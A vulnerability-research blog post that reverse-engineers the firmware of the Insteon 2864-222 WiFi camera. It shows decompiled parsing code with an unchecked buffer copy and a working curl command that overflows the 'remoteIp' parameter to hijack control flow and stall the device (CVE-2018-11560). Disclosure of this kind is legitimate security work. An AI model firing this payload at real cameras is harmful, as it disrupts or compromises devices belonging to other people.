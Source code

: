 # Finding 0-days in Insteon HD WiFI Camera 2864-222

In this brief blogpost we will exploit the Insteon HD Wifi <a href="https://www.amazon.com/Insteon-2864-222-HD-Camera-White/dp/B00Q5XRS8S/ref=sr_1_4?s=hi&ie=UTF8&qid=1522359060&sr=1-4&keywords=insteon+wifi+camera">Camera</a>, model 2864-222.

Without too much talking, let's start.

## Traffic Analysis

According on the Insteon WiFI camera manual, this camera provides an HTTP web interface, which can be accessed at http://<ip_camera>:34100.
Though we tried with all the Internet browsers we could think of (Google Chrome, IE, Firefox, Opera and Safari, lynx), we weren't able to log into the camera to see the video stream.
After calling the Insteon support, we were told that the necessary browser plugins to login using a web browser were not maintained anymore. Too bad!

We then opened wireshark to sniff the traffic between the Insteon app and the camera, and we found, as we can see from the picture below, that the HTTP interface was still active and responding.


![alt text](https://github.com/badnack/Insteon_2864-222/blob/master/shark.png "Wireshark sniffing")


Note also that, the credentials are transmitted in clear text. 
First bad sign. 


## Firmware Analysis
We then wanted to get our hands on the firmware mounted on the camera.
After some research, we found that: 1) the camera firmware is publicly avilable, though encrypted and 2) the Insteon camera is a rebrand of Foscam.
With these information in mind, we downloaded the firmware and successfully decrypted it with one of the known Foscam used passwords.
After looking at the contained binary files, it became clear that the camera mounts an ARM architecture.
Among these, we identified the binary named webService, as the binary handling the user-provide requests.

Once opened with the IDA decompiler, we proceeded in finding the function parsing the URIs parameters. 

To do this we looked for the known GET keywords we observed during the traffic sniffing phase.
In particular, we looked for the keyword 'usr' as in 'usr=root', and after finding it, we retrieved all the functions refercing such string.
After looking at each one of these function, we found the one we were looking for, whose code is reported below.
```c
signed int __fastcall get_value_key(const char *user_URI, const char *key_word, _BYTE *dst_buff)
{
   bool v3; // zf
  signed int counter; // r7
  char *key_val_ptr; // r0
  signed int result; // r0
  const char *assign_ptr; // r5
  signed int assign_len; // r0
  int current_char; // r3
  const char *val_ptr; // r5
  signed int val_len; // r0
  signed int i; // r3
  int c; // r2
  int tmp_buff; // [sp+0h] [bp-98h]

  v3 = key_word == 0;
  if ( key_word )
    v3 = dst_buff == 0;
  if ( v3 )
    return -1;
  counter = 0;
  memset(&tmp_buff, 0, 0x80u);
  strcpy((char *)&tmp_buff, key_word);
  strcat((char *)&tmp_buff, "=");
  key_val_ptr = strstr(user_URI, (const char *)&tmp_buff);
  if ( !key_val_ptr )
  {
    *dst_buff = 0;
    return -1;
  }
  assign_ptr = &key_val_ptr[strlen((const char *)&tmp_buff) - 1];
  assign_len = strlen(assign_ptr);
  do
  {
    if ( counter >= assign_len )
      break;
    current_char = (unsigned __int8)assign_ptr[counter++];
  }
  while ( current_char != '=' );
  val_ptr = &assign_ptr[counter];
  val_len = strlen(val_ptr);
  for ( i = 0; i < val_len; ++i )
  {
    c = (unsigned __int8)val_ptr[i];
    if ( c == '&' )
    {
      dst_buff[i] = 0;
      break;
    }
    dst_buff[i] = c;
  }
  result = 0;
  dst_buff[i] = 0;
  return result;
}
```

As we can see, the above code parses a given URI, searches for the GET key (e.g., 'usr'), skips the '=' characters and finally copy the value associate with the considered key in a provided destination buffer.
The problem here, is that the length of the destination buffer is not provided, let alone check. Therefore, one could potentially provide a value for a the 'usr' key long enough to overwrite any provided destination buffer.
Let's try this out.

First off, we will retrieve the list of the keywords the firmware accepts, by looking for all the cross-references to the above function, and retrieving the passed keywords.
Overall there are __789 different instances__ of this function being called, possibly meaning __789 different unique vulnerabilties__.
We only tested and successfully verified only a bunch of them. For space reasons, and because the exploits look all very similar, here I will report only one of them, for which the __CVE-2018-11560__ was assigned.

Among the GET keys accepted by the web-server, there is one called 'remoteIp'.
The snippet of the function that retrieves its value, by calling the get_value_key function, is reported below:

```c
signed int __fastcall executeCGICmd(int a1, const char *a2)
{
  const char *v2; // r4
  int v3; // r8
  int v5; // r0
  char v6; // [sp+14h] [bp-124h]
  char v7; // [sp+54h] [bp-E4h]
  char v8; // [sp+94h] [bp-A4h]
  char s; // [sp+D4h] [bp-64h]
  int v10; // [sp+114h] [bp-24h]

  v2 = a2;
  v3 = a1;
  if ( !a2 )
    return -1;
  memset(&s, 0, 0x40u);
  memset(&v8, 0, 0x40u);
  memset(&v7, 0, 0x40u);
  v10 = 0;
  sub_2830C(v2, &v7);
  sub_282E8(v2, &s);
  sub_282C4(v2, &v8);
  get_value_key_bug(v2, "remoteIp", &v6);
  if ( !sub_52C44((int)&unk_A5A78, &v6) )
  {
  // additional code...
 ```


As one can see, the destination buffer is defined as big as 64 bytes, which means that if the value provided for the key 'remoteIp' is longer than 64 characters, the function 'get_value_key' will overflow the buffer v6.
Moreover, as the last assembly instruction overwrites the value of PC through a pop from the stack (as shown below), one can calculate the offset of the memory value being popped (i.e., the LR register content), and overwrite it with a known value.

```asm
loc_2907C
ADD     SP, SP, #0x118
LDMFD   SP!, {R4-R10,PC}
; End of function executeCGICmd
```

To easily prove our exaploit and see its effects, we targeted the 'sleep' function.

The final attack is the following:

```bash
time curl --silent --output /dev/null curl 10.250.250.126:34100/cgi-bin/CGIProxy.fcgi\?cmd=asd\&usr=asd\&pwd=asd\&remoteIp=`python -c "print ('A'*266 + '\x9c\x32')"`
```

The above command, when executed, stalls the camera for no less than 45 second.
During this time the camera stream become unavailable, which for a WiFi camera I would say it's pretty bad, if you ask me.

